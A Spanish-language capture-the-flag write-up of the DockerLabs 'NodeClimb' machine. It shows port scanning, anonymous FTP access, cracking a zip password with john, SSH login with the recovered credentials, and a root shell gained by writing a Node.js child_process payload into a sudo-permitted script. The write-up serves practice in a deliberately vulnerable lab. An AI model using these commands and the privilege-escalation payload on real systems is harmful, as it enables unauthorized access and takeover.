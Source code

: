 ```yaml
---
title: NodeClimb
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-05-30
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-nodeclimb/nodeclimb_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - ftp
  - ssh
  - password attacks
  - misconfigurations
  - sudo abuse
  - java script
  - information gathering
  - misconfiguration exploitation
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ ping -c 1 172.17.0.3
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.049 ms

--- 172.17.0.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.049/0.049/0.049/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.3 -n -Pn -oG nmap1
Host: 172.17.0.3 ()	Status: Up
Host: 172.17.0.3 ()	Ports: 21/open/tcp//ftp///, 22/open/tcp//ssh///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ nmap -sCV -vvv -p21,22 172.17.0.3 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd1f3b2dc40b9903e6a35c26f54b47ae (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIIJXdsH3BqdecsOrKH3q6AQI9zJxHexsJHT+Kam8R4WWmg8g0o7s75qwSx6YvfhFptiXDYcMT6hq7VNs4YnuUg=
|   256 a0d492f69bdb122b77b6b158e07056f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIEGiHc4ywr2G/gO3ihoB+r77LxHnCWOkdfc3n0BiZLQ
MAC Address: E2:9E:09:5F:D0:E6 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Misconfiguration Exploitation

Desde el contenedor puedo conectarme al servicio FTP alojado en el puerto por defecto. Ingreso utilizando el usuario `Anonymous`, sin proporcionar ninguna contraseña.

Dentro del directorio principal encuentro el archivo `secretitopicaron.zip`, el cual descargo.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ ftp Anonymous@172.17.0.3 
Connected to 172.17.0.3.
Password: 
230 Login successful.

ftp> ls
-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
226 Directory send OK.

ftp> get secretitopicaron.zip
226 Transfer complete.

ftp> quit
221 Goodbye.
```

Al intentar descomprimir el contenido, el archivo zip solicita una contraseña.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password:
```

Para resolver esto, genero un hash con zip2john y utilizo john para obtener la clave en texto plano. El valor revelado es `password1`.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ zip2john secretitopicaron.zip > secretitopicaron.txt

/home/kali/Documents/dockerlabs/nodeclimb:-$ john secretitopicaron.txt
password1        (secretitopicaron.zip/password.txt)
```

Utilizando esa contraseña, accedo finalmente al contenido del zip, que contiene el archivo `password.txt`. Dentro del archivo encuentro las credenciales `mario`:`laKontraseñAmasmalotaHdelbarrioH`.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password: password1
 extracting: password.txt

/home/kali/Documents/dockerlabs/nodeclimb:-$ cat password.txt
mario:laKontraseñAmasmalotaHdelbarrioH
```

Luego establezco conexión SSH con el usuario `mario` usando la contraseña obtenida. El acceso es exitoso, y consigo un shell como usuario local dentro del contenedor.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ ssh mario@172.17.0.3
mario@172.17.0.3's password: laKontraseñAmasmalotaHdelbarrioH

mario@8f2026c76143:~$ id
uid=1000(mario) gid=1000(mario) groups=1000(mario),100(users)
```

---
## Privilege Escalation

```terminal
mario@8f2026c76143:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
mario:x:1000:1000:mario,,,:/home/mario:/bin/bash
```

Inspecciono los permisos disponibles mediante `sudo`, donde identifico que puede ejecutar el binario `/usr/bin/node` sobre el archivo `/home/mario/script.js` con privilegios de `root` y sin necesidad de contraseña.

```terminal
mario@8f2026c76143:~$ sudo -l
Matching Defaults entries for mario on 8f2026c76143:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 8f2026c76143:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

El archivo `script.js` es editable por el usuario actual `mario`, lo que permite introducir código malicioso.

```terminal
mario@8f2026c76143:~$ ls -alh script.js 
-rw-r--r-- 1 mario mario 0 Jul  5  2024 script.js
```

Para aprovechar esta configuración, sobrescribo el contenido con una línea en JavaScript que lanza una shell con privilegios elevados.

```terminal
mario@8f2026c76143:~$ echo 'require("child_process").spawn("/bin/bash", ["-p"], {stdio: "inherit"})' > script.js
```

Al ejecutar el script con `sudo`, se invoca `Node.js` como `root`, lo que devuelve una shell privilegiada directamente.

```terminal
mario@8f2026c76143:~$ sudo /usr/bin/node /home/mario/script.js

root@8f2026c76143:/home/mario# id
uid=0(root) gid=0(root) groups=0(root)
```

